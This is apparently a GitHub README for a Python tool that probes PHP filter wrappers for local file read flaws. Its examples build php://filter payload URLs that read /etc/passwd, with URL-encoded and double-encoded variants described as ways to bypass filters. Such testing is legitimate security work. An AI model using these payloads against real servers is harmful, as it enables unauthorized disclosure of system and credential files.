 ## PHP Filter Testing Tool

## Overview

This Python program tests PHP filter wrappers to read local files on a web server. It allows you to select different filters, encoding types, and files to test.

## Installation

Install required packages:

```
pip install requests colorama
```

## Usage

Run program:

```
python PHP_Filter_Tester.py
```

You will be prompted to enter:

- Target URL 
- File to read
- Filter type
- Specific filter
- URL encoding type

The program makes a request using your selections and prints the response.

## Examples

**Read /etc/passwd with normal base64 filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 1 (Normal)

Select filter to test: 4 (convert.base64-decode) 

Select URL encoding type: 1 (Normal)

Testing: http://example.com/php://filter/convert.base64-decode/resource=/etc/passwd
```

This tests the base64-decode filter on the /etc/passwd file without any URL encoding.

**Read /etc/passwd with encoded base64 filter**


```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd

Select filter type: 2 (Encoded)

Select filter to test: 6 (convert.base64-encode|convert.base64-decode)

Select URL encoding type: 2 (Encoded) 

Testing: http://example.com/php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d%2fetc%2fpasswd
```

This tests the base64 filter with URL encoding to bypass filters.

**Read /etc/passwd with double encoded zlib filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 3 (Double Encoded)

Select filter to test: 9 (zlib.deflate/convert.base64-encode)

Select URL encoding type: 3 (Double Encoded)

Testing: http://example.com/php%253A%252F%252Ffilter%252Fzlib%252Edeflate%252Fconvert%252Ebase64-encode%252Fresource%253D%252Fetc%252Fpasswd
```

This shows how to double encode the filter and URL to bypass restrictions.

This demonstrates how you can test different filter wrappers to identify file read vulnerabilities.

